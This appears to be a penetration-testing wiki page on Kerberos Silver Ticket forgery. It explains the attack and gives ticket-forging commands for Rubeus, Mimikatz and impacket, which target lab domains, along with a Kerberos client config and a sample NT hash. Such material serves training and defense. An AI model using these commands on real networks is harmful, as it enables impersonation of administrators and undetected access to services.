

# Silver Ticket

Silver Tickets are **forged** [**Kerberos**](../general-information/#kerberos) **service tickets (TGS)** that allow attackers to authenticate to specific services without ever interacting with a Domain Controller (DC), making them a highly stealthy technique. Unlike [Golden Tickets](golden-ticket.md), which target the Kerberos TGT and require the `krbtgt` hash for domain-wide impersonation, Silver Tickets focus on a narrower scope: **service-level access on a specific host**. The attack hinges on the compromise of a service account’s secret—typically its NTLM hash or AES key.

When a client requests access to a service via Kerberos, the DC issues a TGS encrypted with the service account’s key. However, if an attacker already possesses this key—often extracted from memory using tools like [Mimikatz](../ad-tools/mimikatz.md)—they can forge a TGS offline. Since the target service only verifies the ticket using its own key and doesn’t consult the DC, forged Silver Tickets can appear entirely legitimate from the service’s perspective.

<figure><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

In practice, this allows red teamers to impersonate any user, including privileged ones, when accessing services like SMB (CIFS) and HTTP (e.g., for WinRM). For instance, compromising a machine account (e.g., `dcorp-dc$`), which often runs various services, can unlock broad access to services hosted on that system. These **machine accounts rotate their passwords every 30 days by default**, limiting the long-term usefulness of the ticket for persistence, but offering a powerful short-term privilege escalation vector.

<table><thead><tr><th width="140.66668701171875">Service (SPN)</th><th>Provides Access To</th></tr></thead><tbody><tr><td><code>HTTP</code></td><td>WinRM (Windows Remote Management)</td></tr><tr><td><code>CIFS</code></td><td>File system (SMB shares)</td></tr><tr><td><code>HOST</code></td><td>Scheduled tasks, remote service control, WMI (partial, combined with <code>RPCSS</code>)</td></tr><tr><td><code>RPCSS</code></td><td>WMI (combined with <code>HOST</code>), DCOM/RPC endpoint mapper</td></tr><tr><td><code>LDAP</code></td><td>DCSync (requires elevated permissions)</td></tr></tbody></table>


`WSMAN` is the protocol the underlies PowerShell Remoting, so **SPNs used by WSMAN are actually of type HTTP**. WSMAN is build on top of HTTP/SOAP over TCP port 5985/5986.


The effectiveness of Silver Ticket attacks is often boosted by the **lack of strict Privilege Attribute Certificate (PAC) validation** on many services. Without PAC validation, services accept forged tickets without verifying user group memberships with the DC. While Microsoft introduced `PAC_REQUESTOR` validation post-October 2022 to mitigate such attacks—especially for non-existent users—this check is not universally enforced, particularly on non-critical services.

Once injected into memory, the forged ticket allows immediate access to the target service as the specified user. The attack remains **largely undetected by traditional DC-side logging**, as the ticket is never requested from the DC. This OPSEC-safe nature makes it attractive for stealth operations, and many detection platforms, including Microsoft Defender for Identity (MDI), may overlook such activity since **AP-REQ traffic doesn’t always raise flags**.

## **Tools**


**Proper construction of the Service Principal Name (SPN) is critical**: it must conform to Kerberos naming conventions (e.g., `HTTP/web04.corp.com`) rather than URL formats and is case-sensitive in some deployments.


We need three things:

1. Domain SID (can be obtained with [`nxc`](https://www.netexec.wiki/ldap-protocol/find-domain-sid) or PS's `Get-AdDomain`)
2. NTML (plaintext passwords can be [converted to NTML](https://codebeautify.org/ntlm-hash-generator))
3. SPN (via Kerberoasting)



A service ticket can be forged with [Rubeus](../ad-tools/rubeus.md). Similar to the [Golden Ticket](golden-ticket.md) attack, the `/ldap` flag is used to query the DC for user information:


```powershell
# Forge a ST with Rubeus
.\Rubeus.exe silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:<rc4> /sid:<domainSID> /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```




Forging a service ticket with [Mimikatz](../ad-tools/mimikatz.md):


```powershell
# Forge a ST with Mimikatz
.\mimikatz.exe "kerberos::golden /sid:<domainSID> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<rc4> /user:jeffadmin" "exit"
```





```bash
# Request the TGS impersonating the Administrator
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain domain.local -spn MSSQL/x7331.domain.local -user-id 500 Administrator

# Export the ticket
export KRB5CCNAME=Administrator.ccache
```


To use the ticket a configuration file (`/etc/krb5user.conf`) must exists with the appropriate mappings. This is required because the authentication attempt is being made from the attacking machine, which lacks the target domain’s native Kerberos context. When a Silver Ticket is generated and saved as a credential cache, tools such as `mssqlclient.py` still depend on Kerberos libraries to interpret the ticket. Without explicit realm and hostname mappings, the client cannot associate the forged ticket with the correct domain or service, especially when the MSSQL instance is accessed through port forwarding.


```shell
[libdefaults]
        default_realm = DOMAIN.LOCAL
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        NAGOYA-INDUSTRIES.COM = {
                kdc = dc01.domain.local
        }

[domain_realm]
        .domain.local = DOMAIN.LOCAL
```


Then we need to also map the domain locally at `/etc/hosts` and use the ticket:

```bash
$ grep '127.0.0.1' /etc/hosts
127.0.0.1       localhost dc01.domain.local

$ impacket-mssqlclient dc01.domain.local -k
```



